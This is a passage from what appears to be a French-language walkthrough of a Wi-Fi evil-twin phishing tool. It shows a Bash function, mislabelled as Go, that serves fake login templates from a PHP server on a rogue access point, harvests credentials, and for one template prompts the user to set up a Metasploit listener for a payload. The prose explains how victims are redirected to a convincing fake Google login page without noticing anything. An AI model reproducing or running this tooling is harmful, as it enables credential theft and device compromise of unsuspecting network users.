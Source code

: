 ```go

	if [ "$template" == "cliqq-payload" ]; then
		check_plantillas=2
	fi

	if [ $check_plantillas -eq 1 ]; then
		tput civis; pushd $template > /dev/null 2>&1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor PHP...${endColour}"
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		popd > /dev/null 2>&1; getCredentials
	elif [ $check_plantillas -eq 2 ]; then
		tput civis; pushd $template > /dev/null 2>&1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor PHP...${endColour}"
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Configura desde otra consola un Listener en Metasploit de la siguiente forma:${endColour}"
		for i in $(seq 1 45); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		cat msfconsole.rc
		for i in $(seq 1 45); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		echo -e "\n${redColour}[!] Presiona <Enter> para continuar${endColour}" && read
		popd > /dev/null 2>&1; getCredentials
	else
		tput civis; echo -e "\n${yellowColour}[*]${endColour}${grayColour} Usando plantilla personalizada...${endColour}"; sleep 1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor web en${endColour}${blueColour} $template${endColour}\n"; sleep 1
		pushd $template > /dev/null 2>&1
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		popd > /dev/null 2>&1; getCredentials
	fi
}
```

Il faut s'attendre à ce que dans cette phase, on nous demande avec quel modèle nous voulons travailler.

Si l'un est sélectionné, par exemple imaginons… '**google-login**', ce qui se passera, c'est que dès que le client se connectera à l'AP, le navigateur s'ouvrira automatiquement, étant redirigé vers un portail d'authentification, dans ce cas, le Google plate-forme, où vous verrez que pour continuer à naviguer, il est nécessaire de vous connecter avec votre compte de modèle sélectionné.

La victime ne verra jamais les adresses IP ou quelque chose comme ça, donc cela leur fera penser à tout moment qu'ils sont sur la page officielle.

Chaque modèle est organisé dans son propre répertoire, où après avoir sélectionné celui avec lequel nous voulons travailler, un `pushd` à ce répertoire pour monter ultérieurement un serveur Web à l'aide phpHébergé par le port 80.

